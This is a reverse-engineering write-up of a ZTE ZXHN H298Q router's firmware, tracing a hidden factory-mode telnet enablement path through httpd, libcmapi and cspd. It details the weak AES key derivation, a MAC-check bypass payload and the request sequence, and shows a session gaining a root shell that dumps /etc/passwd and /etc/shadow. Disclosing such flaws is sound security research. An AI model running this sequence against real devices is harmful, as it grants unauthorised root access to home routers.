❯ fd --type f --exec sh -c 'strings {} | rg -q "tddiag" && echo {}' \;
./bin/cspd

❯ strings ./bin/cspd | strings | wc -l
27346

# ouchie, let's narrow it down

~/workspace/zte-dump-rootfs-decrypt/squashfs-root
❯ strings ./bin/cspd | strings | rg -C10 'tddiag'
Call function failed! sysdiagd start program fail
RegisterV4AddrNotify EV_IPV4_ADDR_UP
call PcStopProgram failed! g_iDownLoadTempPid %d
StartSysdiagMgr
SysdiagStart
HandleAddrEv
cspd.cspd.telnetdebug_mgr
telnet_debug_mgr
telnet_debug_mgr.c
---->start telnetdebug
tddiag
PcStartProgram telnetdebug error!
PckillByName telnetdebug error!
TelnetDebug
CmSetTelnetdDebug
_startTelnetDebug
time_policy.c
Config update to APP[%d]
TimePolicy
dbAPIQryView DBVIEW_TIMEPOLICY fail!
Control Policy [%d] to App[%d] by Force!

```

Interesting. Opening `cpsd` in Ghidra and grepping for `telnetdebug` + initial rename/analysis:



Nothing super obvious yet, taking a look at the `tddiag_program_start_1` (renamed to `CmSetTelnetdDebug`):

```c
undefined4 CmSetTelnetdDebug(undefined4 param_1,int param_2)

{
  size_t sVar1;
  int iVar2;
  undefined4 local_28;
  undefined4 local_24;
  undefined4 local_20;
  undefined4 local_1c;

  local_28 = 0;
  local_24 = 0;
  local_20 = 0;
  local_1c = 0;
  OSSSendAckData(&local_28,8);
  iVar2 = DAT_006a7540;
  if (*(char *)(param_2 + 0x28) == '\x01') {
    if (DAT_006a7540 == -1) {
      ProcUserLog("telnet_debug_mgr.c",0x45,"CmSetTelnetdDebug",7,0,0,"---->start telnetdebug");
      DAT_006a7540 = PcStartProgram("tddiag","tddiag",0xc,0);
      if (DAT_006a7540 < 0) {
        DAT_006a7540 = iVar2;
        ProcUserLog("telnet_debug_mgr.c",0x4a,"CmSetTelnetdDebug",4,0,0,
                    "PcStartProgram telnetdebug error!");
      }
    }
  }
  else if (DAT_006a7540 != -1) {
    sVar1 = strlen("tddiag");
    iVar2 = PcKillByName("tddiag",sVar1);
    if (iVar2 != 0) {
      ProcUserLog("telnet_debug_mgr.c",0x55,"CmSetTelnetdDebug",4,0,0,
                  "PckillByName telnetdebug error!");
    }
    DAT_006a7540 = -1;
  }
  return 1;
}
```

Looks like something that we'd be interested in - but there's a small issue - there are no XREFs to this function. This it typically a symptom of something being registered as a callback, not as a direct jump. To find the callback location I've grepped `&CmSetTelnetdDebug` in the programs memory:



And got a hit:



There are a bunch of other addresses, I've jumped to some of them and they all land on a legitimate function. This seems to be a callback table of sorts. Above each pointer there is an "ID":

```text
006903d2 24              ??         24h    $
006903d3 01              ??         01h
006903d4 00 54 69 38     addr       CmSetTelnetdDebug
```

0x2401?
During the initial grep I've also matched this function:

```c
undefined4 telnetdebug_mgr_start(void)
{
  OssCreateSubProc("cspd.cspd.telnetdebug_mgr","telnet_debug_mgr",0,0);
  OssAttachEvHandler("cspd.cspd.telnetdebug_mgr",&DAT_006903a0,3);
  return 0;
}
```

Which definitely looks like something that registers callbacks. Also, taking a look at `OssAttachEvHandler` - one of it's arguments is `0x006903a0` which is a `-0x34`  offset from the `CmSetTelnetdDebug` pointer, and there's the `3` argument - which is also pretty suspicious as there are three pointers between `0x006903a0` and next `OssAttachEvHandler` callsite param:

```text
                     DAT_00690350                                    XREF[1]:     cspd_mgr_start:005465a8(*)
00690350 00              ??         00h
00690351 00              ??         00h
00690352 11              ??         11h
00690353 00              ??         00h
00690354 00 54 68 14     addr       FUN_00546814
// snip
0069036a 11              ??         11h
0069036b 03              ??         03h
0069036c 00 54 67 80     addr       FUN_00546780
// snip
00690382 11              ??         11h
00690383 11              ??         11h
00690384 00 54 67 60     addr       FUN_00546760
// snip
                     DAT_006903a0                                    XREF[1]:     telnetdebug_mgr_start:00546918(*
006903a0 00              ??         00h
006903a1 00              ??         00h
006903a2 11              ??         11h
006903a3 00              ??         00h
006903a4 00 54 6c 34     addr       FUN_00546c34
// snip
006903ba 11              ??         11h
006903bb 03              ??         03h
006903bc 00 54 6c 14     addr       FUN_00546c14
// snip
006903d2 24              ??         24h    $
006903d3 01              ??         01h
006903d4 00 54 69 38     addr       CmSetTelnetdDebug
// snip
                     DAT_006903f0                                    XREF[1]:     snpt_mgr_start:00546d44(*)
006903f0 00              ??         00h
006903f1 00              ??         00h
006903f2 81              ??         81h
006903f3 01              ??         01h
006903f4 00 54 76 74     addr       LAB_00547674
// snip
0069040a 81              ??         81h
0069040b 03              ??         03h
0069040c 00 54 6d 60     addr       FUN_00546d60
// snip
00690422 11              ??         11h
00690423 52              ??         52h    R
00690424 00 54 74 e0     addr       FUN_005474e0
// snip
```

An in `cspd_mgr_start`, `telnetdebug_mgr_start`, `snpt_mgr_start` the `OssAttachEvHandler` had the last argument set to `3` - which looks like an amount of callbacks / size of the event table? I've reconstructed this as:

```c
struct OssEvEntry {
  uint32_t eventId;   // +0x00
  void    *handler;   // +0x04
  uint32_t pad[4];    // +0x08 ... +0x17
};
```

Mapped it in Ghidra and then filled `OssAttachEvHandler`:

```c
int OssAttachEvHandler(char *pid, OssEvEntry *eventListPtr, int count)
{
  PCB *pcb;
  int retval;
  // note: reused for retval but this is just an compiler optimization
  int i;

  pcb = GetPCBPtrByPID(pid);
  if (pcb == (PCB *)0x0) {
    ProcOssLogType("source/oss_subproc.c",0x2e,"OssAttachEvHandler",4,0,
                   "GetPCBPtrByPID(%s) failed \n ",pid);
fail:
    i = -1;
  }
  else {
    for (i = 0; i < count; i = i + 1) {
      retval = OssEventListRegister(&pcb->evListHead,eventListPtr);
      eventListPtr = eventListPtr + 1;
      if (retval != 0) {
        ProcOssLogType("source/oss_subproc.c",0x37,"OssAttachEvHandler",4,0,
                       "OssEventListRegister failed \n ");
        goto fail;
      }
    }
    i = 0;
  }
  return i;
}
```

But we still don't know what exactly triggers this event. I've searched for scalar `0x2401` and did not manage to find anything inside the `cspd` binary 🤨 . Not giving up yet though - I think that this is some sort of an IPC communication framework.

## Who's calling Who's calling ~Nemo~ Telnet?
Previously I disregarded the `libcmapi` library with:
> The libcmapi library is "the API library for ctlmgr and its plugins", from Property:libcmapi.so - boxmatrix.info. No specific Telnet-related info there on the website. Also, a library won't start the daemon on its own, so it's most likely not that.

But since we now know that the setup is a bit more complex than initially expected, I've began looking inside this library as well - first by searching for a `telnetdebug_mgr` string - aaand:



Nice, we also got a hit on `0x2401`:

```c
CmSendMsg2MM("cspd.cspd.telnetdebug_mgr",0x2401,0x200001,param_1,local_7f0,1 ,0,0);
```

This definitely looks like IPC, following the `CmSendMsg2MM` call stack:

```text
<????>
	-> CmTsConfWebFacSet (trampoline)
		-> CmTsDebugConfWebSet (you are here)
			-> CmSendMsg2MM
				-> CmSendMsg2MMWithTimerOut
					-> SSEND (liboss.so)
						-> <IPC/Event magic>
							-> CmSetTelnetdDebug (cspd)
								-> tddiag
```

No useful XREF onto `CmTsDebugConfWebSet` from `cspd` - but this time this function is an export

```text
❯ llvm-nm ./lib/libcmapi.so | rg -i 'CmTsConfWebFacSet'
000bb370 T CmTsConfWebFacSet
```

And we can find which binaries need this symbol:

```text
❯ fd --type f | xargs -I {} sh -c 'llvm-nm -D "{}" | rg -q "CmTsConfWebFacSet" && echo "{}"' 2>/dev/null
lib/libcmapi.so
bin/httpd
```

## Who's calling Who's calling Who's calling ~Nemo~ Telnet?
Only `httpd` imports `CmTsConfWebFacSet`. Time to stop staring at `libcmapi` - what in the web server calls this? Opened `httpd` in Ghidra, and this symbol only has one XREF! Nice



After some exploration I've gathered this flow:

```text
CmTsConfWebFacSet
	<- do_handle_webOpsTelnet
		<- webTelnetDealTimeOut
		<- do_handle_webFacDealTelnetParam
```

The `webTelnetDealTimeOut` method is not interesting, it only calls `do_handle_webOpsTelnet(0, "", "")` - I assume that this is an "disable telnet with not/care creds". The `do_handle_webFacDealTelnetParam` is much more interesting:

```c
undefined4 do_handle_webFacDealTelnetParam(undefined4 param_1,undefined4 param_2,undefined4 param_3,int param_4)
{
  int iVar1;
  int iVar2;
  size_t sVar3;
  undefined4 uVar4;
  char *pcVar5;
  undefined4 uVar6;
  undefined1 *puVar7;
  undefined4 uVar8;
  char local_d0 [12];
  char local_c4 [12];
  char acStack_b8 [64];
  undefined1 auStack_78 [72];
  undefined *local_30;
  undefined *local_2c;

  local_c4[0] = '\0';
  local_c4[1] = '\0';
  local_c4[2] = '\0';
  local_c4[3] = '\0';
  local_c4[4] = '\0';
  local_c4[5] = '\0';
  local_c4[6] = '\0';
  local_c4[7] = '\0';
  local_c4[8] = '\0';
  local_c4[9] = '\0';
  local_d0[0] = '\0';
  local_d0[1] = '\0';
  local_d0[2] = '\0';
  local_d0[3] = '\0';
  local_d0[4] = '\0';
  local_d0[5] = '\0';
  local_d0[6] = '\0';
  local_d0[7] = '\0';
  local_d0[8] = '\0';
  local_d0[9] = '\0';
  uVar8 = 6;
  iVar2 = g_facTelnetStep;
  ProcUserLog("factorymode/web_fac.c",0x161,"do_handle_webFacDealTelnetParam",8,0,0,
              "webFacDealTelnetParam g_facTelnetStep %d, STATE_DEALFACPARAM = %d",g_facTelnetStep,6)
  ;
  if (g_facTelnetStep != 5) {
    uVar4 = 0x163;
    pcVar5 = "do_handle_webFacDealTelnetParam";
LAB_0044e908:
    ProcUserLog("factorymode/web_fac.c",uVar4,pcVar5,4,0,0,"State_WebFac is wrong:%d",
                g_facTelnetStep,uVar8);
    return 0;
  }
  g_facTelnetStep = 6;
  if (DAT_00565004 != 0) {
    OssDelTimer(&DAT_00565004);
    DAT_00565004 = 0;
  }
  if (DAT_00564ff8 != 0) {
    OssDelTimer(&DAT_00564ff8);
    DAT_00564ff8 = 0;
  }
  DAT_00564ffc = FUN_0044d760;
  iVar1 = OssSetTimer(&DAT_00564ff8,30000);
  if (iVar1 == -1) {
    pcVar5 = "do_handle_webFacDealTelnetParam set timer fail";
    uVar4 = 0x176;
    uVar6 = 4;
  }
  else {
    if (DAT_00549bd0 != 0) {
      ProcUserLog("factorymode/web_fac.c",0x17d,"do_handle_webFacDealTelnetParam",8,0,0,
                  "isClose  = %d\n",param_4,uVar8);
      if (param_4 == 1) {
        iVar2 = do_handle_webOpsTelnet(0,"","");
        if (iVar2 == 1) {
          if (DAT_00564ff8 != 0) {
            OssDelTimer(&DAT_00564ff8);
            DAT_00564ff8 = 0;
          }
          puVar7 = &DAT_0051c13c;
          uVar8 = 0;
LAB_0044e9b8:
          send_webFac_resp(param_1,200,ok200title,puVar7,uVar8);
          g_facTelnetStep = 8;
          return 1;
        }
        uVar8 = 0x183;
      }
      else {
        local_30 = (undefined *)0x1;
        ProcUserLog("factorymode/web_fac.c",400,"do_handle_webFacDealTelnetParam",5,1,0,
                    "user %s set factory mode %d",param_3,param_2);
        genRandomString(local_c4);
        genRandomString(local_d0);
        iVar2 = do_handle_webOpsTelnet(1,local_c4,local_d0);
        if ((undefined *)iVar2 == local_30) {
          if (DAT_00564ff8 != 0) {
            OssDelTimer(&DAT_00564ff8);
            DAT_00564ff8 = 0;
          }
          DAT_00565008 = webTelnetDealTimeOut;
          iVar2 = OssSetTimer(&DAT_00565004,3600000);
          if (iVar2 == -1) {
            ProcUserLog("factorymode/web_fac.c",0x1a4,"do_handle_webFacDealTelnetParam",4,0,0,
                        "do_handle_webFacDealTelnetParam set timer fail");
          }
          uVar8 = 6;
          ProcUserLog("factorymode/web_fac.c",0x1ac,"do_handle_webFacSendTelnetAuth",8,0,0,
                      "webFacSendTelnetAuth g_facTelnetStep %d, STATE_DEALFACPARAM = %d",
                      g_facTelnetStep,6);
          memset(acStack_b8,0,0x40);
          memset(auStack_78,0,0x41);
          if (g_facTelnetStep != 6) {
            uVar4 = 0x1b2;
            pcVar5 = "do_handle_webFacSendTelnetAuth";
            goto LAB_0044e908;
          }
          g_facTelnetStep = 7;
          if (DAT_00564ff8 != 0) {
            OssDelTimer(&DAT_00564ff8);
            DAT_00564ff8 = 0;
          }
          uVar8 = CmTsConfGetPort();
          snprintf(acStack_b8,0x40,"FactoryModeAuth.gch?user=%s&pass=%s&port=%d",local_c4,local_d0,
                   uVar8);
          uVar8 = AES_encode(acStack_b8,0x40,auStack_78,0x40);
          puVar7 = auStack_78;
          goto LAB_0044e9b8;
        }
        uVar8 = 0x197;
      }
      ProcUserLog("factorymode/web_fac.c",uVar8,"do_handle_webFacDealTelnetParam",4,0,0,
                  "do_handle_webFacDealTelnetParam %d",iVar2);
      local_30 = httpd_err400title;
      local_2c = httpd_err400form;
      sVar3 = strlen(httpd_err400form);
      send_webFac_resp(param_1,400,local_30,local_2c,sVar3);
      return 0xffffffff;
    }
    pcVar5 = "Debug set Telnet Failed";
    uVar4 = 0x17a;
    uVar6 = 5;
  }
  ProcUserLog("factorymode/web_fac.c",uVar4,"do_handle_webFacDealTelnetParam",uVar6,0,0,pcVar5,iVar2
              ,uVar8);
  return 0xffffffff;
}
```

It's a huge function, but there are a few things that stand out:
- `g_facTelnetStep` - a state machine?
- `do_handle_webOpsTelnet(1,local_c4,local_d0);` only invocation of `do_handle_webOpsTelnet` with the first param set, moreover next two arguments are random strings? Maybe a login/password combo?

Moreover:

```c
uVar8 = CmTsConfGetPort();
snprintf(authUrl,0x40,"FactoryModeAuth.gch?user=%s&pass=%s&port=%d",telnetUser,telnetPass,uVar8);
uVar8 = AES_encode(authUrl,0x40,aesOut,0x40);
puVar7 = aesOut;
goto LAB_0044e9b8;
```

Interesting! They are trying to hide something related to "FactoryMode" behind AES! The `do_handle_webFacDealTelnetParam` function only checks and sets the `g_facTelnetStep` to {5,6,7} - which is the tail end of the state machine. This function will abort if step != 5.

This function is only XREF'ed in `start_parse_webFac` function which is quite large (~400 LOC) and sets the state machine to {0,1,3,4}. Nice! There are even more references to the `.gch` pages:

```c
iVar2 = strncmp(pcVar8,"RequestFactoryMode.gch",0x16);
iVar2 = strncmp(pcVar8,"SendSq.gch",10);
iVar2 = strncasecmp(pcVar5,"SendInfo.gch",0xc);
iVar2 = strncasecmp(pcVar5,"CheckLoginAuth.gch",0x12);
memcpy(auStack_54,"FactoryMode.gch",0x10);
iVar2 = strncasecmp(pcVar5,"FactoryMode.gch",0xf);
"FactoryMode.gch strncmp(start,close,5) iRet = %d",iVar6);
```

From a Google AI result:
> In ZTE routers and modems, .gch files are internal web script pages used by the device's management firmware (such as getpage.gch or configuration utility pages like manager_dev_config_t.gch). These endpoints have historically been associated with various unauthenticated configuration backups and command execution vulnerabilities in older firmware versions.

🤔 🤔 🤔 🤔 🤔 🤔 🤔 🤔 🤔 🤔

There's only one caller of `start_parse_webFac` - `really_start_request`:

```c
undefined4 really_start_request(int param_1,undefined4 param_2)

{
  // ...
  uVar1 = httpd_method_str();
  pcVar16 = "The requested method \'%.80s\' is not implemented by this server.\n";
  uVar5 = 0x1f5;
  pcVar7 = "Not Implemented";
  // ...

  iVar9 = strncasecmp(*(char **)(param_1 + 0x80),"webFac",6);
  if (iVar9 == 0) {
    iVar9 = start_parse_webFac();
    if (iVar9 < 0) {
      g_facTelnetStep = 0;
      return 0xffffffff;
    }
    return 0xffffffff;
  }
}
```

Which seems to be a request receiver and dispatcher method, `strncasecmp` suggests that there might be some URL comparison going on. It seems like `webFac` is one of the endpoints. Failure of `start_parse_webFac` resets the state machine. So this is most likely an entrypoint inside the whole telnet enablement state machine. This function seems to have two control flows, one for cleartext and one for AES (*sigh, again...*) encrypted bodies. Time to actually read the thing.

## `/webFac` (plaintext)
The `start_parse_webFac` function starts by pulling a few fields out of the http connection object. The log format string is useful for naming them:

```text
"start_parse_webFac,ci.file %s, %d"

```

`ci.file` is whatever lives at `httpConn + 0x80` (¿¿¿the URL path???), and the trailing `%d` is `httpConn + 0x100` (content length). POST body sits at `+0x4c`. I've not bothered with recreating the struct as in previous steps, since it would not benefit me in any way - maybe besides some cleanliness factor - but that's not worth it at this point.

Anyways, there's this split (pseudocoded):

```c
if (strcasecmp(urlPath, "webFac") == 0) {
    // parse commands from the TEST body
}
else if (strcasecmp(urlPath, "webFacEntry") == 0) {
    // AES-decrypt the POST body, THEN parse commands
}

```

Exact match via `strcasecmp`, not a prefix. The `strncasecmp(..., "webFac", 6)` that got us into this function lives one level up in `really_start_request`. So `/webFacSomethingElseIndeed` would enter the handler and then immediately fail the exact match. Only `webFac` and `webFacEntry` are real. I started with the cleartext side, because that's where the key exchange has to live.

### RequestFactoryMode.gch
First sub-command on `/webFac`:

```c
if (strncmp(postBody, "RequestFactoryMode.gch", 0x16) == 0) {
    if (g_facTelnetStep != 0 && g_facTelnetStep != 8) {
        // "State_WebFac is wrong:%d"
        return 0;
    }
    g_facTelnetStep = 1;

    if (timerHandle != 0) {
        OssDelTimer(&timerHandle);
    }
    // callback is set to FUN_0044d760, which resets state back to 0
    OssSetTimer(&timerHandle, 5000); // 5s
    return 1;
}

```

So the only legal ways in are "never started" (`0`) or "previous run finished" (`8`). You can't jump into the middle of an in-progress handshake. And you've got five seconds to do the next step before the watchdog resets you to zero.

### SendSq.gch

```c
else if (strncmp(postBody, "SendSq.gch", 10) == 0) {
    // parse ?rand=<number>
    // gate: g_facTelnetStep must be 1
    g_facTelnetStep = 3;
    OssSetTimer(&timerHandle, 30000);   // bump deadline to 30s

    uint serverSeed = GetURandomSeed();
    int index = ((serverSeed % 60) ^ ((clientRand * 0x1000193) % 64)) % 60;

    memset(g_webActualkey, 0, 0x18);
    if (index + 24 < 96) {                        // always true for index <= 59
        derive_webFac_key(index, g_webActualkey); // copy 24 bytes from a pool, XOR 0xA5
    }

    init_AES(g_webActualkey, 0x18);               // AES-192

    snprintf(response, 0x14, "newrand=%d", /* serverSeed % 60 */);
    send_webFac_resp(..., 200, ..., response, ...);
}

```

A few things I tripped over while reading this:
The digit check. The decompiler spat out something like:

```c
postBody = strchr(postBody,0x3d);
if (((postBody + 1 != (char *)0x0) && (postBody[1] != 0)) && (((int)postBody[1] - 0x30U & 0xff) < 10)) {
  iVar1 = atoi(postBody + 1); /* ... */
}
```

That's just "is the character after `=` a digit 0-9?" (`0x30` = `'0'`). If you send `SendSq.gch?rand=potato` you get `"Sq is not number"` and `g_facTelnetStep` gets reset to `0`. Same for a missing `?`. So a malformed Sq is a cheap way to force a clean state - useful later.

`0x1000193` is the [FNV-1 prime](https://en.wikipedia.org/wiki/Fowler%E2%80%93Noll%E2%80%93Vo_hash_function). They're mixing client rand + server seed to pick an index into a key pool. Index lands in `{0,1,2,...,58,59}`.

The decompiler shows `snprintf(local_88, 0x14, "newrand=%d")` with the `%d` argument missing. Snippet of the listing view at the call site:

```asm
# v0 = GetURandomSeed()
li    v1, 60
divu  v0, v1          # seed / 60; remainder goes to HI
li    v0, 64          # overwrites v0, but HI is untouched
...                   # a0=buf, a1=0x14, a2="newrand=%d"
mfhi  a3              # a3 = seed % 60   <---- "stashed" here on purpose !
mul   s1, s6, s1      # writes s1 (+ LO/HI)
div   s1, v0          # writes LO/HI only
mfhi  s1              # writes s1
xor   s1, a3, s1      # s1 = a3 ^ s1; a3 is only a source
div   s1, v1          # writes LO/HI only
jalr  t9              # snprintf(a0,a1,a2,a3)
mfhi  s1              # delay slot: pool index into s1
```

The `seed % 60 value` is deliberately stashed in `a3` during 4th instruction so it survives the subsequent multiplication and division operations that clobber `LO` / `HI`. So `newrand` is `serverSeed % 60` even if Ghidra is not 100% sure about that.

Then the key itself. `derive_webFac_key` (`FUN_0044e298`) is tiny:

```c
// g_webFacKeyPool @ 0x549b70 (in the .data section!), 96 bytes
void derive_webFac_key(int index, byte *out_key)
{
  int i;
  memcpy(out_key, g_webFacKeyPool + index, 0x18);   // AES-192 key size (24)
  i = 0;
  do {
    i = i + 1;
    *out_key = *out_key ^ 0xa5;
    out_key = out_key + 1;
  } while (i != 0x18);
}

```

That's the whole function. Copy 24 bytes from the static pool at `pool + index`, then XOR every byte with `0xA5`. No stretching, no hashing, **no per-device secret** (unless each device ships with different firmware image, and I really don't think they do).



This was surprisingly easy, considering our previous AES `.bss` deobfuscation. So the "AES session key" is: **pick 24 bytes from a table that ships in every unit, XOR with a constant**. `SendSq` just agrees on which slice. After this returns, `g_webActualkey` is live, `init_AES(..., 0x18)` has been called (AES-192), and we're in state `3` waiting for the encrypted channel.

## `/webFacEntry` (encrypted)
Second half of `start_parse_webFac`. Exact path match on `"webFacEntry"`, then:

```c
char *plain = my_malloc(contentLen + 1, 0);
memset(plain, 0, contentLen + 1);
AES_decode(postBody, contentLen, plain, contentLen);

ProcUserLog(..., "webFacEntry AES_decode %s,contentlength %d", plain, contentLen);

```

Dispatch is a prefix match on three commands:

```c
if      (strncasecmp(plain, "SendInfo.gch",       0xc) == 0) { ... }
else if (strncasecmp(plain, "CheckLoginAuth.gch", 0x12) == 0) { ... }
else if (strncasecmp(plain, "FactoryMode.gch",    0xf) == 0) { ... }

```

Any parse failure on this channel gives you HTTP 400 and `g_facTelnetStep = 0`.


### SendInfo.gch

```c
char *q = strchr(plain, '?');
char *info = strstr(q + 1, "info=");
iRet = do_handle_webFacCheckClientInfo(httpConnection, info + 5);  // (FUN_0044da24)
```

This branch does not check the state itself - the state check lives inside `do_handle_webFacCheckClientInfo`.  Buuuuutttt:
- `SendSq` left us in state 3.
- `CheckLoginAuth` (next step) requires state 2.

That's not confusing at all... right? Anyways, taking a look inside the `do_handle_webFacCheckClientInfo` function:

```c
undefined4 do_handle_webFacCheckClientInfo(int httpConnection, char *info)
{
  // info = whatever followed "info=" in the decrypted body

  if (g_facTelnetStep != 3) {
    // "State_WebFac is wrong:%d"
    return 0;
  }
  g_facTelnetStep = 2;                          // 3 then 2 (!!!!!!!!!!!!!!!!!!!!!!!!!!)
  OssSetTimer(&webFac_timerHandle, 30000);

  // client's MAC from the TCP connection
  get_remote_mac(httpConnection);
  StrToMAC(..., &remoteMac);

  // info format: "<count>|<blob...>"
  count = strtol(info, NULL, 10);
  pipe  = strchr(info, '|');

  if (count % 6 != 0) goto fail_401;
  if (count > 0x200)  { g_facTelnetStep = 0; goto fail_401; }
  if (pipe == NULL)   { g_facTelnetStep = 0; goto fail_401; }

  // uses count, NOT blob length - empty blob still iterates
  p = pipe + 1;
  for (i = 0; i != count; i++) {
    addr = inet_addr(p);
    byte = hash_mod(addr);              // (x * addr) % 0x9e9, 0x4f7 times
    derived[i] = byte;
    if (i % 6 == 3 && derived[i-1] == 0xFF && byte == 0xFF) {
      send_webFac_resp(httpConnection, 200, ...);
      return 1;                         // early out - no MAC compare
    }
    p += 4;
  }
  for (i = 0; i != count / 6; i++) {
    if (memcmp(derived + i * 6, remoteMac, 6) == 0) {  // MAC check - our flow never reaches this path
      send_webFac_resp(httpConnection, 200, ...);
      return 1;
    }
  }

fail_401:
  send_webFac_resp(httpConnection, 401, ...);   // 0x191
  return 0xffffffff;
}
```

Sometimes things are just... weird. First off, we do change the state iterator from 3 to 2. Going backwards for a while never hurt anybody! So the next state should be 4 right? A bit silly but makes sense. As for the general functional overview of the function - it looks like it's a basic (((hashed?))) MAC address check. It compares the TCP frame data - `get_remote_mac(httpConnection)` - with the data received inside the POST binary blob, which is then somewhat modified using `hash_mod`. Seems fair enough - and if it weren't for the  🐘 in the room - I'd probably get stuck here for a LONG time....


I have no idea why this is in the firmware, truly, no clue. This runs on every 4th byte (`i==3`) - and this checks if the previous and current derived byte equal to `0xFF`. The derived bytes are defined with:

```c
addr = inet_addr(p);
byte = hash_mod(addr); // (x * addr) % 0x9e9, 0x4f7 times
derived[i] = byte;
```

So in the MAC term it means that it will match on anything matching `??:??:FF:FF:??:??`. But `inet_addr` is a function prepared to handle IPv4 addresses - not MAC ones. Honestly - I've no idea what's going on here - but since `inet_addr`:
> Upon successful completion, inet_addr() shall return the Internet address. Otherwise, it shall return (in_addr_t)(-1).

If we pass an invalid address - for example, an empty `cstring` - we should get `0xFFFFFFFF`, which should survive the `hash_mod` as `0xFF` for every iteration. Thus we will have a "MAC" address of `FF:FF:FF:FF:FF:FF` - which should match the early return condition! Yikes. And it turns out it is possible to create a broken payload to achieve just that, we just need to have:
- count must be divisible by 6
- smaller than `0x200`
- blob after `\|` is empty (so every `inet_addr(p)` fails and returns -1)

In theory - `info=6\|` is a valid payload for this endpoint - and will let us hit an early exit.
Also: the timer-fail log inside this function says `"do_handle_webFacCheckLogin set timer fail"`. Wrong function name. Copy-paste from the previous handler. Classic :)

### CheckLoginAuth.gch

```c
// version must be >= 50 (0x32)
char *v = strstr(q, "version");
SafeStrncpy(buf, v + 7, 8);
if (strtol(buf, NULL, 10) < 0x32) { /* "Some Param is wrong" */ }

char *user = strstr(q + 1, "user=");

if (g_facTelnetStep != 2) { /* wrong state */ }
g_facTelnetStep = 4;      // YEP! Moving from a state 2 to 4 as expected!

if (doWebCheckAuth(user) == 1) {       // (FUN_0044dd98)
    g_facTelnetStep = 5;
    // encrypt the literal string "FactoryMode.gch" and send it back as ACK
    AES_encode("FactoryMode.gch" /* padded to 0x20 */, ...);
    send_webFac_resp(..., 200, ..., encrypted_ack, ...);
} else {
    g_facTelnetStep = 0;
    send_webFac_resp(..., 401, ...);
}
```

`user` here is not just the username - it's a pointer to `"user="` in the decrypted query, so the rest of the string (`user=...&pass=...`) gets handed down as-is. The real check is `doWebCheckAuth`:

```c
undefined4 doWebCheckAuth(char *query_from_user)  // was FUN_0044dd98
{
  char expected[0x20c];
  char auth_buf[...];   // CmDevGetAuthInfo output

  memset(expected, 0, 0x20c);
  memset(auth_buf, 0, 0x5a8);

  if (CmDevGetAuthInfo("IGD.AU1", auth_buf) != 0) {
    // "GetAuth failed"
    return 0xffffffff;
  }

  // user/pass pulled out of the auth_buf view
  snprintf(expected, 0x20c, "user=%s&pass=%s", user_from_db, pass_from_db);

  if (strcmp(query_from_user, expected) == 0)
    return 1;
  return 0xffffffff;
}
```

So: load `IGD.AU1` via `CmDevGetAuthInfo`, build the literal string `user=<db>&pass=<db>`, `strcmp` against whatever followed `user=` in the request. Exact match or you're out. No hashing, no challenge - just a string compare against the `DevAuthInfo` row. Remember `IGD.AU1` from the decrypted config? That's the expected pair - the fleet-wide hardcoded tech account from earlier suddenly matters a lot more. The exploit query ends up looking like:

```text
CheckLoginAuth.gch?version50&user=tech&pass=[REDACTED]
```

On success you get an AES-encrypted `"FactoryMode.gch"` back. State is now `5`, which is what `do_handle_webFacDealTelnetParam` was waiting for.

### FactoryMode.gch

```c
if (strncmp(p, "close", 5) == 0) {
    do_handle_webFacDealTelnetParam(httpConn, 0, "", 1);          // isClose=1
} else {
    mode = atoi(strstr(p, "mode=") + 5);
    user = strstr(p, "user=") + 5;
    do_handle_webFacDealTelnetParam(httpConn, mode, user, 0);     // isClose=0
}
```

And we're back where we started. Enable path: generate random 8-char user/pass via `genRandomString` (reads `/dev/urandom`), call `do_handle_webOpsTelnet(1, ...)`, which packs a `TelnetDebugReq` blob and hits `CmTsConfWebFacSet`, which fires IPC `0x2401`, which lands in `CmSetTelnetdDebug`, which calls `PcStartProgram("tddiag")`. Then AES-encrypt a `FactoryModeAuth.gch?user=...&pass=...&port=...` response (port comes from `CmTsConfGetPort()`, which returns `62323` - the same port that was "connection refused" earlier), send it, set state to `8`, and arm a one-hour timer that calls the close path when it fires.

## The complete (weirdly numbered) state machine:

```text
State 0 (INIT)
  |  POST /webFac  "RequestFactoryMode.gch"
  |  (also accepts state 8 if a previous run finished)
  v
State 1 (WAITING_RECVSQ)   [5s timeout resets to 0]
  |  POST /webFac  "SendSq.gch?rand=N"
  |  derives AES-192 key from pool, responds "newrand=M"
  v
State 3 (KEY_EXCHANGED)    [30s timeout resets to 0]
  |  POST /webFacEntry  AES("SendInfo.gch?info=6|")
  v
State 2 (CLIENT_VERIFIED)  [30s timeout resets to 0]
  |  yes, 3 then 2
  |  POST /webFacEntry  AES("CheckLoginAuth.gch?version=50&user=tech&pass=[REDACTED]")
  |  checks DevAuthInfo / IGD.AU1 (fleet-wide ISP credentials)
  |  fail: 401, reset to 0
  v
State 4, then 5 (LOGIN_CONFIRMED)  [30s timeout resets to 0]
  |  POST /webFacEntry  AES("FactoryMode.gch?mode=2&user=notused")
  v
States 6, 7, 8
     genRandomString x2
     do_handle_webOpsTelnet(1, ...)
     CmTsConfWebFacSet / IPC 0x2401 / cspd / PcStartProgram("tddiag")
     respond AES("FactoryModeAuth.gch?user=RAND&pass=RAND&port=62323")
     1-hour auto-disable timer
```

## Can we actually enable it?
YEP. The full exploit script is at [`utils/factorymode.py`](utils/factorymode.py). It walks the entire state machine using raw sockets (httpd drops connections and sends malformed responses that trip up `requests`/`urllib`), derives the AES-192 session key from the key pool, and prints the generated telnet credentials.

Running it:

```text
[*] newrand=24, index=18, key=0x71f6b68193671044596a2f3fe42c99ec6af9d7293b4ed0a8

user: Qf8Hbi6T
pass: 8F9wBojg


zte-dump-rootfs-decrypt ❯ telnet 192.168.1.1 62323
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
ZXHN H298Q
Login: Qf8Hbi6T
Password:

BusyBox v1.17.2 (2022-10-20 19:15:33 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# cat /etc/passwd
r8o2R*T6:x:0:0:root:/root:/bin/sh

# cat /etc/shadow
r8o2R*T6:$5$qGmxLn8v$uNrtN/rgX1XJe7X3DiKmYu8X0vkvRDBYeY8KECrq737:12086::99999::::

# uart-test-1
Opening serial port... hahahahahahah
Serial port open failed:No such device or address

Sending RST frame to network co-processor... failed.
Host error: EZSP_ERROR_SERIAL_INIT (0x54).

```

## Tools used

- [binwalk](https://github.com/ReFirmLabs/binwalk) - firmware analysis and extraction
- [Ghidra](https://github.com/NationalSecurityAgency/ghidra) - reverse engineering framework
- [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) - kallsyms recovery from raw kernel images
